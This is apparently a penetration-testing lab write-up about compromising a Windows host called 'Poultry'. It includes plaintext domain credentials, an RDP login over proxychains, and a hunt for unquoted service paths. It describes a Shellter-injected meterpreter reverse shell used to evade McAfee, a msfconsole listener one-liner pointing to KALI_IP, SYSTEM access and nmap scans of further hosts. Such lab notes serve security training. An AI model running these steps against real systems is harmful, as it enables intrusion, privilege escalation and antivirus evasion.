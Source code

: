 # Poultry (10.5.5.20)
***
## Exploitation
> [!info] 
>  While exploring SMB share (on Zora), a powershell script named `system_report.ps1` was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`. 

``` 
username = "sandbox\alex"
password = "Ndawc*nRoqkC+haZ"
```

1. From our previous exploits (**Zora**), we already know that `10.5.5.20` has a running **Remote Desktop Protocol (RDP)**. And since we have one of the user's credential, we established a connection to  `10.5.5.20` using the command
   
```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```

![[poultry-rdp.png]]

***
## Post-exploitation

1. We started checking for non-standard services. One of the first things that stands out to us is the `Puppet Agent` has a service path that is not quoted. After further checking, we confirmed that the service is configured to run via `Local System` which could potentially give us an elevated permissions.
   
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"
```

![[poultry-services.png]]

> [!note] 
> We noticed that McAfee  Anti-virus is also running.

2. In order to leverage the unquoted path `C:\Puppet\Current Version`, we created a reverse shell named `Current.exe`  and place it in `C:\Puppet`.

> [!important] 
> Since the target has an anti-virus installed, we also have to make sure that  our reverse shell won't get flagged or detected. We used [Shellter](https://www.shellterproject.com/download/) to achieve this.
> 
> We used a regular Windows executable (in this case the `whoami.exe`) and injected our meterpreter payload using [Shellter](https://www.shellterproject.com/download/). We then renamed it to `Current.exe`.

3. We then started our meterpreter listener
```
sudo msfconsole -q -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost KALI_IP; set lport 80; exploit"
```

4. After restarting (`shutdown /r -t 5`) the machine, we were able to get a connection on our meterpreter running in the context of `NT AUTHORITY\SYSTEM`
![[poultry-system.png]]

5. We ran ping sweep and discovered 2 other connected hosts: `10.5.5.25` and `10.5.5.30`
   
   ![[poultry-pingsweep.png]]
6. We ran an nmap scan on 2 newly discovered hosts.

```
proxychains nmap --top-ports=1000 -sT -Pn 10.5.5.25,30 --open
...
...
...
Nmap scan report for 10.5.5.30
Host is up (0.80s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

Nmap scan report for 10.5.5.25
Host is up (0.80s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
```

We noticed the open port **53**  on `10.5.5.30` which suggests that it could be a domain controller. Port **8080** on `10.5.5.25` is also interesting.